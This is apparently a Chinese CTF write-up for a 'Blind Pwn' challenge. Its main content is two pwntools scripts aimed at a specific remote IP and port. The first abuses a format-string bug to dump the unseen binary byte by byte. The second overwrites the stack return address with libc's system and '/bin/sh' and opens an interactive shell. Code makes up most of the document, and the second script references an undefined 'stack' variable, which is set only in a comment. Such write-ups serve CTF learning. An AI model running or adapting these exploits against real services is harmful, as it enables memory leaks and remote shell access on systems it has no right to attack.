

Blind Pwn  
找到偏移地址，dump下整个程序  

```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']

debug = 0
f = open("bin1024", "ab+")
begin = 0x8048000
offset = 0
#gdb.attach(proc.pidof(p)[0])

while True:
    addr = begin + offset
    p = remote("35.237.220.217", 1339)
    p.recvuntil("Name:")
    p.sendline( "A" * 136 + "%54$saaa" + p32(addr) )
    try:
        info = p.recvall()
        info = info[info.index("dog") + 3: info.index("aaa")]
        if info == "\x0a":
            info = "\x00"
        else:
            info = info[1:]
    except EOFError:
        print offset
        info = "\xff"
    p.close()
    offset += len(info)
    f.write(info)
    f.flush()
```

从程序中可以得到一些函数的plt、got地址  



根据这些信息去[找找](https://libc.blukat.me)libc的版本，得到system的偏移  
因为程序只运行一次，所以覆盖printf的GOT表不知道怎么利用，所以直接重写返回地址了  
遍历栈，找返回地址0x8048702所在的地址，然后使用格式化字符漏洞布置栈数据，执行system  

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

debug = 0

addr = 0xffff0001
printf_addr = 0x804A00C
puts_addr = 0x804A020
fgets_addr = 0x804A014
offset = 0
main = 0x804863a

printf_got_addr = 0xf7e62020
system_got_addr = printf_got_addr - 0xe6e0
sh_got_addr = printf_got_addr + 0x11000b
puts_got_addr = printf_got_addr + 0x16120
#gdb.attach(proc.pidof(p)[0])

stack_begin = 0xffffd000

def get_addr(addr):
    while True:
        p = remote("35.237.220.217", 1339)
        p.recvuntil("Name:")
        p.sendline( "A" * 136 + "%54$saaa" + p32(addr) )
        try:
            info = p.recvall()
            info = info[info.index("dog") + 3: info.index("aaa")]
            if info == "\x0a":
                info = "\x00"
            else:
                info = info[1:]
        except Exception:
            info = "\xff"
        p.close()
        addr += len(info)
        print "info:", hex(addr), info
        if "\x02\x87\x04\x08" in info:
            print hex(addr)
            break

def set_addr(addr):
    p = remote("35.237.220.217", 1339)
    p.recvuntil("Name:")
    payload = fmtstr_payload(52, {stack: system_got_addr, stack + 4: main, stack + 8: sh_got_addr})
    p.sendline("A" * 136 + payload)
    p.interactive()

#get_addr(stack_begin) 
#stack = 0xffffda9c
set_addr(stack)
```